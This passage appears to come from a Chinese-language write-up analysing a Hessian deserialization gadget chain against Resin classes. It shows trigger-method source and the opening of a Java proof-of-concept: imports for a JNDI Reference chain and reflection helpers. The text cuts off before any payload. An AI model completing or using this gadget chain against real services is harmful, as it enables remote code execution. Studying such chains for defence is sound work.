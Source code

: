  - 跟进`UtilFactory#makeToStringTriggerStable`方法, 继续调用`ToStringUtil#makeToStringTrigger`方法. 先调用`unhash`方法来计算`qName.hashCode`, 接着创建一个`XString`对象, 最后调用`JDKUtil#makeMap`方法, 与`RomeGadget`后面的分析一样.

```java
default Object makeToStringTriggerStable ( Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger ( Object o ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(o, xString);
}
```

### POC

```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import sun.reflect.ReflectionFactory;
import com.caucho.naming.QName;
import javax.naming.CannotProceedException;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Hashtable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 12:40 上午
 */
public class ResinGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
```